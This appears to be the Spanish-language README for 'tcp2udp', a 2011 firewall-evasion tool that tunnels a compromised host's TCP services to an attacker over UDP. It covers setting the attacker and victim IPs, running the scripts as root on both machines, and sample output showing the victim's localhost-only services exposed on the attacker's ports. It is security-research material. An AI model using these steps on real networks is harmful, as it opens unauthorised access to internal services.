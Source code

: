 tcp2udp
=======

Tool for convert tcp traffic to udp. Firewall bypassing



************************ TCP 2 UDP FIREWALL BYPASSING ***********************

Descripcion: Evasion de cortafuegos a traves del protocolo UDP
Dependencias: packit socat (aptitude install packit socat)
Version: Version inicial 0.1 Beta 10 de Enero de 2011
Comentarios: Testeado en entorno Debian 5.0
Autor: Roberto Amado, S2 Grupo
http://www.securityartwork.es/2011/02/25/tcp2udp-firewall-bypassing/
*****************************************************************************

Configuración
-------------

1º Satisfacer dependencias mediante: 
	aptitude install packit socat

2º Editar el archivo tcp2udpClient.py y modificar la variable IPServidor con la dirección de la IP del Cortafuegos que estará haciendo NAT al servidor comprometido

	Ej. IPServidor = '172.17.22.1'

3º Editar el archivo tcp2udpServer.py y modificar la variable ip_cliente con la dirección de la IP del equipo atacante, así como modificar el interfaz de red utilizado

 	Ej. ip_cliente = '192.168.1.23'
	Ej. interfaz  = "eth0"

4º Modificar si se desea el puerto de control por donde se intercambiará el cliente y el servidor la información. Este pueto se utiliza además como base para los mapeos de puertos de la víctima, de forma local en el atacante.
	Ej. puerto_control = 50000


Instalación
-----------

1º Ejecutar tcp2udpClient.py en el entorno atacante y esperar a la conexión del servidor (víctima) (como root).

	Ej. python tcp2udpClient.py

2º Ejecutar tcp2udpServer.py en el entorno víctima (como root).

	Ej. python tcp2udpServer.py

En ese momento el la victima remitirá por el puerto de control la información de sus sericios al atacante. Cada puerto  TCP de la víctima se le asigna un puerto UDP mapeado en todas las interfaces, incluidos los servicios que escuchan tan solo en localhost. El tráfico TCP es transformado a UDP y remitido al atacante. Este último para conectar con uno de esos servicios tan solo tendrá que realizar una conexión TCP en su interfaz localhost.

Ejemplo de salida por pantalla del atacante:



Socket Remoto        Proceso Remoto    Socket local en localhost
-------------        ---------------   -------------------------
0.0.0.0:389     -->     slapd           127.0.0.1:50001/TCP

0.0.0.0:57574   -->     rpc.statd       127.0.0.1:50002/TCP

0.0.0.0:8010    -->     python          127.0.0.1:50003/TCP

127.0.0.1:587   -->     sendmail:MTA:   127.0.0.1:50004/TCP

0.0.0.0:111     -->     portmap         127.0.0.1:50005/TCP

0.0.0.0:81      -->     nginx           127.0.0.1:50006/TCP

0.0.0.0:113     -->     inetd           127.0.0.1:50007/TCP

127.0.0.1:818   -->     famd            127.0.0.1:50008/TCP

0.0.0.0:22      -->     sshd            127.0.0.1:50009/TCP

0.0.0.0:23      -->     inetd           127.0.0.1:50010/TCP

127.0.0.1:631   -->     cupsd           127.0.0.1:50011/TCP

127.0.0.1:25    -->     sendmail:MTA:   127.0.0.1:50012/TCP


En es momento si el atacante desea conectarse al puerto de telnet de la victima realizaría lo siguiente:

telnet localhost 50010


Happy hacking ;)!



Fallos Conocidos
----------------

* Dependiendo del servicio mapeado este puede no responder correctamente, como por ejemplo el servicio de ssh. Servicios como telnet, http, SMTP, https suele funcionar muy bien.

* No funciona en Windows (todavía)

* Tanto cliente como servidor han de ejecutarse como root

TODO
----------------

* Versión para Windows
* Aunar la comuniación UDP en un solo puerto demultiplexando los paquetes a la llegada al cliente y al servidor.
